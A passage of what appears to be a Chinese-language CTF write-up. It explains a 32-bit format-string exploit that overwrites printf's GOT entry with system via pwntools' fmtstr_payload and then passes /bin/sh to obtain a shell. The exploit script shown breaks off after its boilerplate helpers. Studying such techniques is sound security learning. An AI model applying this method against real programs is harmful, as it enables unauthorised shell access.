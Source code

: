 [![](assets/1701612281-86e99487895ebb6b7f12c0b30b2dc788.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224249-5ddf3e0a-2579-1.png)

从三部分分析 exp

*   第一部分，这是经过测试出来的，

[![](assets/1701612281-cabab94f55099e47f43d6f97b4d5c58f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224254-61099206-2579-1.png)

这里第一部分经过搜集资料知道了这里是无关字节，可以用**\\xff\\x25**表示无用字节码，然后后面 4 个字节就是我们需要的 printf 的 got 表地址

*   第二部分，这里也是测试出来的，跟上面同理，只不过没有了无用字节码了
*   第三部分，这里是用了 pwntools 中的 fmtstr\_payload 函数，因为我们实际上调用的还是 printf@got，就把 printf@got 的地址改为了 system 的地址，从而执行 system，之后我们再手动传参一个/bin/sh 从而 getshell

exp:

```plain
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii
context.log_level='debug'
context.arch='i386'

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
```